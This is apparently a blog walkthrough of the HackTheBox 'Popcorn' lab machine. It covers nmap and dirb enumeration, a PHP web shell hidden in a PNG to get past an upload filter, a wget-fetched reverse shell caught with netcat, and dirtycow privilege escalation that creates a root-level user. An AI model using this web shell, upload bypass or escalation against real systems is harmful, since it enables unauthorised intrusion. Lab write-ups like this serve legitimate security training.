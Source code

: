 # **Popcorn**

![1697021818482.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1697021818482.png)



![1696924564296.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696924564296.png)

This is the beginning of my hackthebox series, and our first machine would be popcorn.

Popcorn, while not overly complicated, contains quite a bit of content and it can be difficult for some users to locate the proper attack vector at first. This machine mainly focuses on different methods of web exploitation.

Let's Dig in, first, we start by spawnning up the machine in hackthebox and retrive the provided ip address

![1696924977285.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696924977285.png)

we then now use nmap to scan the network for available ports, this the result of nmap:

```bash
# Nmap 7.93 scan initiated Mon Oct  9 13:41:24 2023 as: nmap -sV -sC -oA nmap 10.129.92.90
Nmap scan report for 10.129.92.90
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  9 13:42:38 2023 -- 1 IP address (1 host up) scanned in 73.66 seconds

```

In the above result we could see ssh and a web server ports opened, we navigate to the site using the ip address and got this:

![1696925794586.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696925794586.png)

Next, we try to perform path enumeration using dirb:

```bash
dirb http://10.129.92.90 -r -o tmp.dirb

```

the -r means no directory traversal and -o means to save output to tmp.dirb, after running for some time we got the following result:

```bash

-----------------
DIRB v2.22  
By The Dark Raver
-----------------

OUTPUT_FILE: tmp.dirb
START_TIME: Mon Oct  9 13:44:41 2023
URL_BASE: http://10.129.92.90/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.129.92.90/ ----
+ http://10.129.92.90/cgi-bin/ (CODE:403|SIZE:288)
+ http://10.129.92.90/index (CODE:200|SIZE:177)
+ http://10.129.92.90/index.html (CODE:200|SIZE:177)
+ http://10.129.92.90/server-status (CODE:403|SIZE:293)
+ http://10.129.92.90/test (CODE:200|SIZE:47348)
==> DIRECTORY: http://10.129.92.90/torrent/

-----------------
END_TIME: Mon Oct  9 14:01:41 2023
DOWNLOADED: 4612 - FOUND: 5

```

we try accessing the '/test' endpont and only got the default apache test page with nothing much to scavenge, the rest of the endpoint only shows the previous "it works...." page

we then check the "/torrent" endpoint and saw a torrent upload service:

![1696926161702.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696926161702.png)

Accessing the '/torrent' end point redirects us to  "popcorn.htb", which was showing Not found error, this may me a dns problem, so we solved it by adding the ip address and domain name to our /etc/host file:

![](./pop1.png)

After successfully accessing the site, we then click on login to login with default admin credentials and got incorrect credentials, we then try to create an account;

We check arround the page and search for common vulnerability we can exploit to get into the system, we saw and upload service that only accepts torrent files so we try uploading one:

![1696926572348.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696926572348.png)

we upload a movie torrent file to the site

![1696926927344.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696926927344.png)

we try exploiting this upload service to upload our php shell file but no luck, since it only accepts torrent files only after going through so many checks, after uploading the torrent file, we colud see a screenshot image which we could update by uploading another picture:

![1696927059547.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696927059547.png)

As shown above, we could only upload a file with an email extension. so let's prepare our payload;

We create a blank file in png file Format

To create a blank file for the checking purpose, execute the following command.

```bash
convert -size 32x32 xc:white test.php
```

after running the command we have a blank image file.

we could see the created file is a png image, next we embed our payload:

we put the following in the middle of the file:

```php
<?php echo system($_GET['cmd']); ?>
```

![1696927404204.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696927404204.png)

One more step, we need to add a png extension so that it passes the extension validaton:

we add .png to the file extension:

![1696936394167.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696936394167.png)

we can now upload this file to the server and we got a successful upload message 🎉️

Next off, is to find where this image is uploaded, let's check the upload section:

![1696936702056.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696936702056.png)

we could see our uploaded payload with the .php extension, let's try accessing it:

![1696936804810.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696936804810.png)

we could now see the payload executing, let's try listing the directory:

using:

```http
http://popcorn.htb/torrent/upload/86adccf057ac813938d277c05334239eaf7ebd3d.php?cmd=ls%20-al
```

![1696936863300.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696936863300.png)

Hurray, we now have code execution 🎉️

# **Getting Reverse Shell**

To get a reverse shell we need to prepare our payload and upload it into the server;

we do this by hosting a http server in where our payload is hosted on port 7000

![1696945127248.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945127248.png)

we then use wget to download this payload on the server and saved it as gear2.php, we use url encode:

![1696945222090.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945222090.png)

Request payload

![1696945256499.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945256499.png)

after sending the request we could confirm that the payload is on the server saved as gear2.php:

![1696945293919.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945293919.png)

we setup a netcat listener on port 9000; all this as been configured in the gear2.php payload sent earlier with our ip address and port of 9000:

![1696945393375.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945393375.png)

After clicking on gear2.php we get a reverse shell:

![1696945432233.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945432233.png)

we extract the user hash stored in user george home directory and submit:

![1696945660927.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1696945660927.png)

# **Priviledge Escalation**

Time to use gear 3 for priviledge escalation 😄

we use [dirtycow](https://github.com/FireFart/dirtycow/blob/master/dirty.c) for gear 3, we download it and host it using our simple http server, and downloaded it in the machine

![1697021456679.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1697021456679.png)

we then use the following command to compile it

```bash
 gcc -pthread gear3.c -o gear3 -lcrypt
```

Then we run the executable:

![1697021540647.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1697021540647.png)

After running the compiled executable, it creates a new user called firefart with a password configured by us,

we then try to login using that user name and password:

![1697021664453.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1697021664453.png)

we now have root priviledges, so lets get the root hash:

![1697021696161.png](https://blog.cyb3rguru.tech/posts/hackthebox/popcorn/1697021696161.png)

And we have successfully pwned popcorn.
